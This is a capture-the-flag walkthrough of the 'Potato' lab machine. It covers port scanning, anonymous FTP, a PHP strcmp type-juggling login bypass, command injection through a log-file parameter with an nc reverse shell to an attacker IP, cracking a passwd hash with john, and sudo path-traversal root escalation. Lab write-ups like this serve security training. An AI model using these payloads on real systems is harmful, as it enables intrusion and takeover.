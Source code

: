# Potato
### Enumeration
Port scan shows that ports 22, 80 and 2112 are open:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 18:53 EST
Nmap scan report for 192.168.51.101
Host is up (0.00033s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
MAC Address: 00:50:56:BF:53:12 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.28 seconds
```

We connect to FTP using `ftp ftp://anonymous@192.168.51.101:2112`, pressing `<Enter>` when prompted for a password, and download `index.php.bak`. The contents are:

```
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

### Foothold

Fumbled around with trying to guess the password based on small changes to the one in the file above. Ultimately, the way to exploit this is using the fact that there's a **_non-strict comparison_**. We send the following request through Burp (we discovered this path using Feroxbuster):

```
POST /admin/index.php?login=1 HTTP/1.1
Host: 192.168.51.101
Content-Type: application/x-www-form-urlencoded

username[]=blabla&password[]=blabla
```

Because we've forced the `username` and `password` variables to be arrays, `strcmp()` returns `NULL` instead of an integer. Because of the use of non-strict equality (`==`), `NULL == 0` returns true and we authenticate, getting back the following header:

```
Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=Tue, 07-Mar-2023 23:58:50 GMT; Max-Age=31536000
```

Now we can use this password to login to the admin dashboard.

The `logs` page of the admin is of interest. We are able to control something in the page output, so originally I tried to inject PHP code. It was ultimately just rendering the filename being passed and so the code was not being executed. The page offered a file read capability, so next I tried local file inclusion, which it was vulnerable to. I read `dashboard.php` to get a better idea of how I might be able to inject commands through the file parameter:

```
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.51.101
Content-Length: 21
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.51.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.101/admin/dashboard.php?page=log
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: closeftpd 

file=../dashboard.php
```

Response included the relevant snippet:

```
if(isset($_POST['file'])){
  echo "Contenu du fichier " . $_POST['file'] .  " :  </br>";
  echo ("<PRE>" . shell_exec("cat logs/" .  $_POST['file']) . "</PRE>");
}
```

So we can just add a `;` to the end of a filename and pass in another command. We pass the following in a POST request to get a reverse shell:

```
file=log_01.txt; nc -e /bin/bash 192.168.51.200 9001
```

With a listener on port 9001, we get a shell as the `www-data` user.

### Privilege Escalation
Reading `/etc/passwd`, we see:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

We can crack this by first putting it in a file called `pass.txt` then using `john pass.txt`. We get the password `dragon`.

Now, we can SSH in as the user `webadmin` with the password `dragon`. Running `sudo -l`, we see:

```
(ALL : ALL) /bin/nice /notes/*
```

We can't write to `/notes` but we can create a file called `exploit` in our home directory with the contents `/bin/bash`, run `chmod +x /home/webadmin/exploit` and then use path traversal to execute it with sudo privileges:

```
sudo /bin/nice /notes/../home/webadmin/exploit
root@serv:/home/webadmin#
```

Read the flags and we're done!